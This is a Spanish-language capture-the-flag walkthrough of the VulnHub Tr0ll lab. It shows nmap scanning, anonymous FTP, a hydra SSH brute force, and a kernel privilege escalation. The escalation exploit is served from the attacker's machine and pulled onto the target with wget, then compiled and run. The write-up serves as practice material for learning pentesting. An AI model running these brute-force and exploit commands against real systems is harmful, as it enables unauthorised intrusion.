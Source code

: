 ```yaml
---
title: "Tr0ll — Walkthrough"
author: "Pxlymxrph"
level: "Easy"
target: "VulnHub - Tr0ll"
url: "https://www.vulnhub.com/entry/tr0ll-1,100/"
date: 2025-10-05
tags: [ctf, vulnhub, linux, ssh, privesc, ftp, enum]
---
```


# Tr0ll — Walkthrough

**Autor:** Pxlymxrph  
**Origen:** VulnHub — Tr0ll (link arriba)  
**Objetivo:** Obtener acceso root y encontrar la flag.
**Resumen (TL;DR):**
- Descubrí la IP de la máquina en la LAN.  
- `nmap` mostró FTP (anon), SSH y HTTP.  
- FTP alberga un archivo .pcap. Wireshark muestra una dirección web  
- Fuerza bruta controlada con `hydra` sobre SSH → acceso `overflow`.  
- Encontré Kernel antiguo -> `searchsploit` cuenta con exploit para escalar privilegios
- Flags: root.

## 1) Descubrimiento de red
Detecté la máquina objetivo en la red local con:

```bash
arp-scan -I eth0 --localnet --ignoredups
```

IP objetivo: **192.168.1.97**. Verifiqué cabeceras/TTL con `ping -c 1 192.168.1.97` (confirma Linux).

![ip_discovery.png](Images/ip_discovery.png)

## 2) Escaneo de puertos y servicios
Escaneo rápido de todos los puertos:

```bash
nmap -p- -sS --min-rate 5000 192.168.1.97 -Pn -n -vvv
```

Escaneo con scripts en puertos detectados (21,22,80):

```bash
nmap -sCV -p21,22,80 192.168.1.97
```
![nmap_servs.png](Images/nmap_servs.png)

Resultados clave:
- 21/tcp FTP (anonymous)  
- 22/tcp SSH  
- 80/tcp HTTP  

## 3) Enumeración FTP
Ingreso con el usuario *anonymous* y encuentro un archivo `.pcap` y procedo a analizarlo con `wireshark`. Encuentro un directorio secreto en la web.

![ftp.png](Images/ftp.png)

![wireshark.png](Images/wireshark.png)

El nuevo directorio alberga un binario con nombre `roflmao`. Lo descargo y con ayuda de `strings` logro encontrar una pista.

```bash
strings roflmao -n 13
```

![roflmao.png](Images/roflmao.png)

## 4) Fuerza bruta con Hydra
La nueva ubicación alberga dos carpetas, cada una con una lista de palabras.

![0x085.png](Images/0x085.png)

Esto me lleva a pensar que se trata de posibles credenciales por lo que uso hydra para atacar el puerto 22.

```bash
hydra -L which_one_lol.txt -P Pass.txt ssh://192.168.1.97
```

![hydra.png](Images/hydra.png)

## 5) Acceso y enumeración local
Paso unos minutos buscando posibles vectores para escalar privilegios y en un punto la conexión se rompe y tengo que loguearme nuevamente en SSH.

![timeup.png](Images/timeup.png)

Aplico `uname -a` para listar la versión del Kernel y veo que es una versión muy desactualizada

## 6) Escalada a root
Con la versión del Kernel identificada, uso `searchsploit` para buscar un vector de ataque y escalar privilegios. Una vez identificado, lo descargo y monto un servidor en python para compartirlo a la máquina víctima.

![searchsploit.png](Images/searchsploit.png)

```bash
searchsploit -m 37292.c
python3 -m http.server
```

Habiendo traido el exploit a la máquina objetivo procedo a compilarlo y ejecutarlo para obtener acceso root. Me muevo al directorio root y encuentro la flag

```bash
wget http://192.168.1.80:8080/37292.c
gcc 37292.c -o escalada
chmod +x escalada
./escalada
```

![flag.png](Images/flag.png)

## Resumen de comandos clave
```bash
arp-scan -I eth0 --localnet --ignoredups
nmap -p- -sS --min-rate 5000 192.168.1.97 -Pn -n -vvv
nmap -sCV -p21,22,80 192.168.1.97
ftp 192.168.1.97
wireshark lol.pcap 2</dev/null & disown
strings roflmao -n 13
hydra -L which_one_lol.txt -P Pass.txt ssh://192.168.1.97
ssh overflow@192.168.1.97
uname -a
searchsploit -m 37292.c
python3 -m http.server
gcc 37292.c -o escalada
```

## Conclusión

Tr0ll es un CTF que ayuda a familiarizarse con la metodología y las fases del pentesting; las vulnerabilidades son básicas por lo que es un buen ejercicio para quienes quieren empezar a adentrarse en el área.
